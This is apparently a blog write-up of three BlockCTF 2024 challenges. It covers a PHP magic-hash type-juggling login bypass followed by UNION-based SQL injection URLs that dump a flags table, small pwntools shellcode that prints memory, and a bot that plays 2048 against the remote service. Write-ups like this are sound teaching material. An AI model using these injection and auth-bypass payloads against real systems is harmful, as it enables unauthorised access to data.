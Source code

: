 +++
date = '2024-11-15T12:53:25+01:00'
draft = false
title = 'BlockCTF 2024 - writeup'
author = 'TheMrEviil'
categories = ['writeups']
+++

## WEB: Juggl3r

Description:
```
Juggl3r
200
The admin panel seems locked behind some odd logic, and the flag is hidden deep. Can you bypass the checks and uncover the secret?

http://54.85.45.101:8080/
```
This challange remember me why i lovd PHP and the same i hate it. When we go on website we have only login page with attempt 5 minut. 
In requests we find version PHP and Apache. Well... lets mix some params in request. When we set username `admin` and  `password[]=1` server response `` Warning: hash() expects parameter 2 to be string, array given in /var/www/html/login.php on line 36` 

This information give a lot of things + challange name Juggl3r. In PHP 7.4 we have some thing like type juggling. It's not good logic to equal variables example:
'123' == 123 : TRUE

but in warning we have information about `hash()` function let's check magic hash. Concept takes advantage of this behavior by using special strings that, when compared to each other with ==, are evaluated as equal to each other (even though they may seem different). In particular, it uses strings that PHP will interpret as a number 0 during comparison.

For example:

"0e12345" == "0" is true because "0e12345" is interpreted as 0.

Popular hashes in PHP are MD5, SHA256 

SHA256:
`34250003024812:0e46289032038065916139621039085883773413820991920706299695051332`


and we got admin. 
Next step in url we can change user_id parameter. but not interesting, but when i add -- we have SQL Syntax ERROR . AWESOME 

now we add a little bit SQL 
`http://54.85.45.101:8080/admin.php?user_id=NULL%20union%20select%201,%20table_name,%201%20FROM%20information_schema.tables%20LIMIT%201%20OFFSET%2083--`

and set user_id=NULL because we need spot to display query result. When we have table name `flags` get column name

`http://54.85.45.101:8080/admin.php?user_id=NULL union select 1, COLUMN_NAME, 1 FROM information_schema.columns WHERE table_name = 'flags' LIMIT 1 OFFSET 0--`

now we can read flag
`http://54.85.45.101:8080/admin.php?user_id=NULL union select 1, flag, 1 FROM flags WHERE id = 1--`

and gg `flag{juggl3_inject}`


## PWN: Only Ws

Description:
```
Only Ws
50
The flag is write there. All you have to do is get it.

nc 54.85.45.101 8005
```

When we connect to netcat we have flag address. Write some asm with the best friend ChatGPT
```
from pwn import asm, context

context.arch = 'amd64'

shellcode = asm("""
    mov rax, 1
    mov rdi, 1
    mov rsi, 0x4040a0
    mov rdx, 64
    syscall
    mov rax, 60
    xor rdi, rdi
    syscall
""")

with open("payload1", 'wb') as f:
    f.write(shellcode)
print(shellcode)

```

ok, now we can send a payload to nc and get flag
`flag{kinda_like_orw_but_only_ws}`

## MISC: 2048 ai

Description:

```
2048 ai
150
Can you speedrun 2048?

nc 54.85.45.101 8006
```

Code:
```
import time
import sys
import ctypes
import math
import os
import random
import pwn
from pwn import cyclic_find

pwn.context.log_level = 'debug'

def to_c_board(m):
    board = 0
    i = 0
    for row in m:
        for c in row:
            board |= int(round(math.log(c, 2))) << (4 * i) if c > 0 else 0
            i += 1
    return board

def movename(move):
    return ['w', 's', 'a', 'd'][move]

def find_best_move_for_4x4(board):
    if len(board) != 4 or any(len(row) != 4 for row in board):
        raise ValueError("Input must be a 4x4 matrix.")
    
    c_board = to_c_board(board)
    move = ailib.find_best_move(c_board)

    if move < 0:
        return "No moves available"
    return movename(move)

def parse_board_state(response):
    board_state = []
    lines = response.splitlines()[1:]
    for line in lines[:4]:  # Process only the first 4 lines for rows
        row = [int(x) for x in line.split() if x.isdigit()]
        # Pad row with zeros if less than 4 elements
        while len(row) < 4:
            row.append(0)
        board_state.append(row)

    while len(board_state) < 4:
        board_state.append([0, 0, 0, 0])
    
    return board_state

# Initializing the AI library
for suffix in ['so', 'dll', 'dylib']:
    dllfn = '2048-ai/bin/2048.' + suffix
    if os.path.isfile(dllfn):
        ailib = ctypes.CDLL(dllfn)
        break
else:
    print("Couldn't find 2048 library bin/2048.{so,dll,dylib}! Make sure to build it first.")
    sys.exit()

ailib.init_tables()
ailib.find_best_move.argtypes = [ctypes.c_uint64]

# Example board state
board_state = [
    [0, 0, 0, 0],
    [2, 0, 0, 0],
    [2, 0, 0, 0],
    [0, 0, 0, 0]
]


p = pwn.remote('54.85.45.101',8006)

last_moves = []
while True:
    response = p.recvuntil(b"Enter command(s) (w/a/s/d for movement, q to quit):", timeout=3).decode("UTF-8")
    
    
    if "Congratulations" in response or "Over" in response:
        print(response)
        sys.exit()
    
    board_state = parse_board_state(response)
    print("Stan planszy:", board_state)  
    
    move = find_best_move_for_4x4(board_state)
    print('move', move)
    if move == "No moves available":
        print("No valid moves left. Exiting.")
        sys.exit()
    
    last_moves.append(move)
    p.sendline(move.encode('utf-8'))

```


And we have `flag{f4st3r_th4n_hum4nly_p0ssibl3}`

We finish CTF on #19 :) 

Bye 